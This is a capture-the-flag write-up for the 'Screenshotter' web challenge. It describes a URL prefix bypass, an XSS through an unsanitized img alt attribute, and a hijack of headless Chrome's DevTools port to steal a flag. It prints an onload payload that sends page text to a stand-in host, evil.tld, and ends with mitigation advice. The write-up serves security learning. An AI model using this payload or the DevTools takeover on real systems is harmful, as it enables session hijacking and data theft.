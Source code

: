# Screenshotter

## Information
**Category**: Web  
**Difficulty**: Medium    
**Author:** LiveOverflow  
**Points:**
- **Junior:**   ?  
- **Senior:**   ?    
- **Earth:**    ?   

**First Blood:**    
- **Junior:**   LinHe  
- **Senior:**   mawalu
- **Earth:**    Qyn

**Description:**
>Screenshotter is a novel web app to quickly take notes and screenshots.   
>Simply enter the URL of a website and store a screenshot of it.   
>Currently in beta, only cscg.de screenshots are allowed.  

**Challenge Files:**   
- `screenshotter.zip`   

## Overview
---
This is a docker setup with three containers `chrome`, `screenshotter` and `app`
In the ZIP file there is a `docker-compose.yaml` and three folders `admin`, `app` and `chrome`.

The `screenshotter` container hosts the website.    
On the website you can register, save notes and take screenshots. There is also a public log of all actions.   
The `admin` container saves a note with the flag at startup and takes screenshots of `http://cscg.de` periodically.   
The Chrome container is just a headless Chrome instance that takes the screenshots. The browser is controlled via port 9222 and the [Chrome DevTools Protocol](https://chromedevtools.github.io/devtools-protocol/).   

## Solution   
---
### 1. Bypass cscg.de restriction
The Python code only checks the beginning of the URL:
`if body.startswith('https://www.cscg.de') or body.startswith('http://cscg.de'):`   
For example, if the URL would be `http://cscg.de.example.tld` it would also be accepted.
So I just created a subdomain and used it as a bypass.

### 2. XSS on /notes
The title of the captured website is also displayed as img alt attribute.   
But since this is not additionally sanitized the title will be packed directly into the img tag.   
`alt={{ note.title }}`   
If there are spaces in the title then this happens:   
`alt="Cyber" Security Challenge Germany`  
With for example this title you can now execute your javascript with onload:   
`abc onload=alert(0)`   
The resulting img tag looks like this:   
`alt="abc" onload=alert(0)`   
This allows you to execute any javascript on the load of the website.   
### 3. Access flagger's browser tab and attack it
Through the Chrome browser, I can access port 9222 and control Chrome this way.   
I first let me show all open tabs by an iframe under the address `http://127.0.0.1:9222/json/list`. 
There is an about:blank tab there. I redirect this tab to the list of open tabs under the URL `http://127.0.0.1:9222/json/list`.    
There a javascript filters the json values for the ID of the tab of flagger and changes the title to the XSS payload.   
My Payload I have chosen is:   
`Cyber onload=window.location.replace(`http://evil.tld/`+document.getElementsByTagName(`pre`)[0].innerText)"`   
I have combined everything in the `exploit.html`.    
When starting the challenge you have to call the page once to then adjust the ID in the `exploit.html`.    
If you see in the log that flagger has submitted a screenshot, submit the `exploit.html` again.
Now you should receive the flag at your `evil.tld`

## Mitigation    
---
The user's input and the alt tag should be properly sanitized.   
Also the access as user to port 9222 and at best the complete sharing of the chrome container should be prevented. 

Leon T.